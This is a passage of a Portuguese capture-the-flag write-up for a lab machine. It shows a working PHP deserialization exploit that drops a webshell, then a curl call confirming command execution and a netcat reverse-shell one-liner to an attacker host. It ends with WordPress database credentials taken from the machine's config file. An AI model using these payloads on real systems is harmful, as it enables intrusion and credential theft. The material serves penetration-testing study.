 ```php
<?php 

class DatabaseExport
{
    public $user_file = 'shell.php';
    public $data = '<?php system($_GET["cmd"]); ?>';
    
    public function update_db()
    {
        echo '[+] Grabbing users from text file <br>';
        $this-> data = 'Success';
    }
    
    public function __destruct()
    {
        file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
        echo '[] Database updated <br>';
        //    echo 'Gotta get this working properly...';
    }
}

$url = 'http://10.10.10.223/sator.php?arepo=';
$arepo = $url . urlencode(serialize(new DatabaseExport));
$response = file_get_contents("$arepo");
print "$response";
```

Após execução, foi possível validar o funcionamento do webshell com a chamada executando o comando `id`.

```bash
$ php exploit.php
[] Database updated <br>[+] Grabbing users from text file <br>
[] Database updated <br>[] Database updated <br>   

$ curl -L http://10.10.10.223/shell.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Confirmado o acesso, realizado chamada para um shell reverso utilizando o comando abaixo:

```bash
curl -G --data-urlencode "cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f" http://10.10.10.223/shell.php
```

## User Flag

Uma vez com acesso à máquina, já que era sabido que tínhamos um wordpress instalado, busquei pelo arquivo de configuração do wordpress onde pude obter as credenciais para acesso ao banco do usuário **neil**

```php
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'neil' );

/** MySQL database password */
define( 'DB_PASSWORD', 'Opera2112' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
```
